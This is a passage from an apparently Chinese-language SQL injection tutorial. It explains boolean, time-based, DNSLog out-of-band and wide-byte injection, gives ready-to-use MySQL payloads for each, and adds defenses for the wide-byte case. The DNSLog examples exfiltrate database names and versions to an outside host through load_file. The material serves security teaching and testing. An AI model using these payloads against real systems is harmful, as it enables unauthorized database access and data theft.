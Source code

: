         ' and ascii(substr(database(),1,1)) = 112 # (p)
        -- 猜解数据库名第一个字符
        ' and substr(database(),1,1) = 'p' #
        ```
    *   **工具:** Burp Suite Intruder 可用于自动化布尔盲注。
4.  **时间盲注 (Time-based Blind):**
    *   **概述:** 页面无论真假都返回相同内容，无法通过页面状态判断。通过构造条件语句，如果条件为真则执行 `sleep()` 或类似耗时操作，通过响应时间判断条件真假。
    *   **常用函数:**
        *   `sleep(seconds)`: 使数据库暂停指定秒数。
        *   `if(condition, true_expr, false_expr)`: 条件判断。
        *   `benchmark(count, expr)`: 重复执行表达式 `count` 次（高负载）。
    *   **Payload 示例:**
        ```sql
        -- 判断是否存在注入 (如果存在，页面延迟5秒)
        ' and if(1=1, sleep(5), 0) #
        -- 猜解数据库名第一个字符
        ' and if(ascii(substr(database(),1,1)) = 112, sleep(5), 0) #
        -- 使用 benchmark
        ' AND benchmark(5000000, MD5('A')) # (执行大量MD5计算)
        ```
5.  **DNSLog盲注 (DNSLog-based Blind / Out-of-Band):**
    *   **概述:** 利用数据库函数（如MySQL的`load_file()`）发起DNS查询请求，将查询的数据作为子域名拼接到特定的DNSLog平台地址上。通过查看DNSLog平台的解析记录来获取数据。
    *   **前提条件:**
        *   目标数据库服务器能访问外网。
        *   数据库用户具有执行相关函数（如`load_file()`）的权限。
        *   (MySQL on Windows) `secure_file_priv` 配置允许加载文件（通常需为空 `""` 或指定特定目录，`NULL`表示禁止）。
    *   **方法:**
        1.  注册一个DNSLog平台账号（如 `ceye.io`, `dnslog.cn`）获取一个唯一子域名 `your_identifier.ceye.io`。
        2.  构造Payload，将要查询的数据（如`database()`、`version()`）拼接到子域名前。
    *   **Payload 示例 (MySQL on Windows):**
        ```sql
        -- 将数据库版本发送到DNSLog
        select load_file(concat('\\\\',(select version()),'.your_identifier.ceye.io\\abc'));
        -- 将库名(可能含特殊字符,用hex编码)发送到DNSLog
        select load_file(concat('\\\\',(select hex(database()) limit 0,1),'.your_identifier.ceye.io\\abc'));
        ```
    *   **注意:** 特殊字符可能无法直接作为域名，常用`hex()`编码或`replace()`替换。

## 特定注入技术

### 宽字节注入 (Wide Byte Injection)

*   **原理:** 当数据库使用GBK等宽字节编码时，某些函数（如PHP的`addslashes()`）为了防止注入，会在单引号 `'` 前添加反斜杠 `\`，变为 `\'`。其十六进制为 `%5c%27`。攻击者可以在单引号前添加一个大于128的ASCII码字符（如 `%df`），构成 `%df%5c%27`。GBK解码时会将 `%df%5c` 视为一个汉字（如“運”），从而“吃掉”反斜杠，留下单独的单引号 `'`，绕过转义。
*   **条件:**
    *   数据库连接使用宽字节编码（如GBK）。
    *   PHP等脚本语言使用了 `addslashes()` 或类似转义函数，但未正确设置字符集（如使用 `mysql_set_charset('gbk', $conn)`）。
*   **检测与利用:**
    *   黑盒：在参数后添加 `%df'` 测试，如 `id=1%df'`。
    *   白盒：检查代码确认编码和转义函数使用情况。
*   **防御:**
    *   使用UTF-8编码。
    *   正确设置数据库连接字符集（如 `mysql_set_charset('utf8', $conn)` 或 PDO 中设置）。
    *   使用 `mysql_real_escape_string()` 并确保连接字符集设置正确。
    *   设置MySQL连接参数 `character_set_client=binary`。
